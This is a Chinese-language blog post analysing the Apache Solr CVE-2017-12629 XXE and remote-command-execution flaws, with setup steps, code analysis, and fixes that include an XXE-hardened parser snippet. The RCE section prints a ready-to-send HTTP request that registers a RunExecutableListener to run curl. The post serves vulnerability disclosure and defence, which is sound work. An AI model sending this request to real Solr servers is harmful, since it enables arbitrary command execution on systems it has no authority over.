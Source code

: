 ```yaml
---
layout:     post
title:      "CVE-2017-12629 - Apache Solr XXE & RCE 漏洞分析"
subtitle:   "Analysis of the Vulnerabilities"
date:       2017-10-24
author:     "Urahara"
categories: [XXE, Remote Code Execution, Java Security]

---
```


### Versions Affected

```
Apache Solr before 7.1.0 with Apache Lucene before 7.1
Elasticsearch, although it uses Lucene, is NOT vulnerable to this.
```

### Description

​	Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）。

### First Vulnerability:  XML External Entity Expansion

#### Test Environment

> Linux Ubuntu server x64
>
> **Apache Solr 7.0.1** (https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/7.0.1/)
>
> **Java SE Development Kit 8** (http://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html)  
>

**1. 启动Solr**

Solr不需要额外安装，解压安装包即可，通过bin/solr目录来启动

```shell
$ bin/solr start
```

如果在Windows平台，可以这样启动：

```powershell
bin\solr.cmd start
```

这样就可以在后台启动Solr，并监听8983端口，启动脚本会检查启动的正确性并返回提示信息到控制台。这时就可以通过浏览器来访问管理控制台(http://localhost:8983/solr/)。

**2. 创建Core**

如果没有使用示例配置，为了能够建立索引和查询，这里必须创建一个Core

```shell
$ bin/solr create -c Urahara # Urahara为你要创建的Core的名称
```

这会使用data-driven schema创建一个core，会尝试根据添加的文档来确定类型建立索引。

查看所有创建新core的选项：

```shell
$ bin/solr create -help
```

**3. 添加文档**

这时候Solr中还是空的，我们需要添加一些文档以便进行索引。在example/目录的子目录下有不同的类型。

在bin/目录下有一个发送脚本，是一个命令行工具，可以索引不同的文档。现在不需要关心太多细节。索引部分的所有细节都在The Indexing and Basic Data Operations部分。

要查看有关bin/post的有关信息，使用-help选项。Windows用户可以参考bin/post工具的Windows部分。bin/post可以发送各种数据类型到Solr，包括原生的XML和JSON格式、CSV文件，丰富的文档目录树，甚至是抓取的简单网页。

继续，根据示例XML文件添加所有文档：

![solr-post](http://reverse-tcp.xyz/static/img/posts/solr/solr-post.png)

完成上述操作Solr就已经为这些文档建立索引并包含在这些文件中。

现在，我们有了索引文档可以执行查询。比如下面在所有文档中查询video

![solr-select](http://reverse-tcp.xyz/static/img/posts/solr/solr-select.png)

#### Vulnerability Analysis

这是一个典型XXE漏洞的缺陷编码示例，Lucene包含了一个查询解析器支持XML格式进行数据查询，出现问题的代码片段在/solr/src/lucene/queryparser/src/java/org/apache/lucene/queryparser/xml/CoreParser.java文件中

![parseXML](http://reverse-tcp.xyz/static/img/posts/solr/parseXML.png)

通过查看调用栈中的数据处理流程，在调用lucene xml解析器时确实没有对DTD和外部实体进行禁用处理，造成了Blind XXE。

![solr-xxe](http://reverse-tcp.xyz/static/img/posts/solr/solr-xxe.png)

### Second Vulnerability: Remote Code Execution

依据漏洞作者所披露的漏洞细节来看，RCE需要使用到SolrCloud Collections API，所以**RCE只影响Solrcloud分布式系统**。

#### Test Environment

> Linux Ubuntu server x64
>
> **Apache Solr 7.0.1** (https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/7.0.1/)
>
> **Java SE Development Kit 8** (http://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html)  
>
> **Zookeeper 3.4.6** (http://mirror.bit.edu.cn/apache/zookeeper/)
>

这里我搭建了单节点伪分布式SolrCloud进行漏洞复现和调试

**1. 启动Zookeeper**

在ZooKeeper目录创建data目录，用来作为单个ZooKeeper节点的存储目录，在该目录下建立一个myid文件```echo 1 > data/myid``` 

打开conf/zoo.cfg文件，进行如下修改: dataDir修改为data的路径，并在文件末尾加上如下配置```server.1=localhost:2287:3387``` 

通过```bin/zkServer.sh start ./conf/zoo.cfg``` 启动Zookeeper服务

**2. 启动Solr**

启动Solr时需要与Zookeeper端口对应

```shell
bin/solr start -p 8983 -f -a "-DzkHost=localhost:2181"
```

至此，我们已完成了SolrCloud的伪分布式搭建

![solrcloud](http://reverse-tcp.xyz/static/img/posts/solr/solrcloud.png)

#### Vulnerability Analysis

RunExecutableListener类中使用了``Runtime.getRuntime().exec()``方法，可用于在某些特定事件中执行任意命令

![exec](http://reverse-tcp.xyz/static/img/posts/solr/exec.png)

使用了config API传入add-listener命令即可调用RunExecutableListener

![RunExecutableListener](http://reverse-tcp.xyz/static/img/posts/solr/RunExecutableListener.png)

```http
POST /solr/newcollection/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://127.0.0.1:8080"]
  }
}
```

而这里的"exe"，"dir"，"args"内容也都可以通过http的方式传入，所以在没有访问控制的情况下任何人都可以通过该config API 达到任意命令执行的操作

通过查看代码，能够触发命令执行的事件有两个：```postCommit``` 和 ```newSearcher``` 

![exec-Event](http://reverse-tcp.xyz/static/img/posts/solr/exec-Event.png)

使用postCommit时，需要使用update进行collection更新后命令才会执行，因此需要两次进行请求

![postCommit-1](http://reverse-tcp.xyz/static/img/posts/solr/postCommit-1.png)

![postCommit-2](http://reverse-tcp.xyz/static/img/posts/solr/postCommit-2.png)

而使用newSearcher时可直接执行命令

![newSearcher](http://reverse-tcp.xyz/static/img/posts/solr/newSearcher.png)

### Solution

1. 添加Solr访问控制，**包括禁止本地直接未授权访问** 
2. 升级版本至7.1，该版本已经解决了XML解析问题并删除了RunExecutableListener类
3. 针对XXE可手动修改CoreParser.java文件，按照通常防止基于DOM解析产生XXE的防范方法修复即可

```Java
static Document parseXML(InputStream pXmlFile) throws ParserException {
    DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
    DocumentBuilder db = null;
    try {
      //protect from XXE attacks
      dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
      dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
      dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
      
      db = dbf.newDocumentBuilder();
    }
    catch (Exception se) {
      throw new ParserException("XML Parser configuration error", se);
    }
    org.w3c.dom.Document doc = null;
    try {
      doc = db.parse(pXmlFile);
    }
```

3. 针对RCE问题，由于涉及的是SolrCloud所以建议在所有节点中添加filter，进行相关过滤

### Referer

http://lucene.472066.n3.nabble.com/Re-Several-critical-vulnerabilities-discovered-in-Apache-Solr-XXE-amp-RCE-td4358308.html

http://seclists.org/oss-sec/2017/q4/79

